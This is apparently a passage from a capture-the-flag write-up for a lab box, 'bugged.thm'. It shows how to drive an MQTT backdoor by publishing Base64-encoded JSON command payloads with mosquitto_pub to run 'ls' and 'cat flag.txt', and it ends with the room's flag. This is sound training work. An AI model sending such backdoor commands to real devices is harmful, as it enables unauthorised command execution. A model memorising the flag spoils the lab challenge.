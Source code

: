 ```
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "ls"}
```

Encode in Base64 and send:

```
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAibHMifQ==" -h bugged.thm
```

Now we see another Base64 string in the subscriber terminal.

<img width="1857" height="1006" alt="Screenshot From 2025-05-22 21-28-26" src="https://github.com/user-attachments/assets/cd2da8db-d623-43fb-a0b2-00b92a53abf6" />

---

We see a file named **flag.txt**.

Let’s craft another payload to read it:

```
{"id": "cdd1b1c0-1c40-4b0f-8e22-61b357548b7d", "cmd": "CMD", "arg": "cat flag.txt"}
```

Encoded in Base64:

```
mosquitto_pub -t "XD2rfR9Bez/GqMpRSEobh/TvLQehMg0E/sub" -m "eyJpZCI6ICJjZGQxYjFjMC0xYzQwLTRiMGYtOGUyMi02MWIzNTc1NDhiN2QiLCAiY21kIjogIkNNRCIsICJhcmciOiAiY2F0IGZsYWcudHh0In0=" -h bugged.thm
```

Decoding the response gives us the flag.

> Q1: What is the flag?
> A1: flag{18d44fc0707ac8dc8be45bb83db54013}

---

And with that, we successfully extracted the flag using MQTT backdoor exploitation.
